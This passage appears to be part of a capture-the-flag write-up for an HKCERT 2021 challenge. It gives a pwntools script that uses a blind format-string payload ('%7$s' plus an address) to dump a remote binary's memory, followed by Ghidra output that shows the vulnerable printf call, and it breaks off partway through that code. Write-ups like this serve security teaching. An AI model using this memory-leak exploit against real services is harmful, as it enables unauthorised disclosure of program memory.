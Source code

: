 I wrote a script to dump the source file and pass it to my teammate to reverse it.

Full dump script:
```python
from pwn import *

TARGET = './'
HOST = 'chalp.hkcert21.pwnable.hk'
PORT = 28132
context.arch = 'amd64' # i386/amd64
context.log_level = 'debug'
#elf = ELF(TARGET)

#---

output = b''
addr = 0x400000

def dump(addr):
    sleep(0.1)
    p = remote(HOST, PORT)
    p.sendline(b"%7$s||||" + p64(addr))
    text = p.recvuntil("||||", timeout=5000)[:-4]
    p.close()
    print(f"trying {hex(addr)} : {str(text)} {len(text)}")
    return text
    
myfile = open("dump", "ab")
while True:
    try:
        if addr > 0x406000:
            break

        data = dump(addr)
        if len(data) == 0:
            myfile.write(b'\x00')
            addr += 1
        else:
            myfile.write(data)
            addr += len(data)
    except  Exception as e:
        continue


#p.interactive()
```
### Step 2: Reverse

Now that we have the binary, we can use decompilers like ghidra to look at the original code. There are 3 functions that interest us the most:

```c
undefined8 FUN_0040142f(void)

{
  int iVar1;
  char local_28 [32];
  
  FUN_004013d9(local_28,0x1f);
  iVar1 = FUN_00401192(local_28);
  if (iVar1 == 1) {
    FUN_004012c8();
  }
  else {
    printf(local_28);
```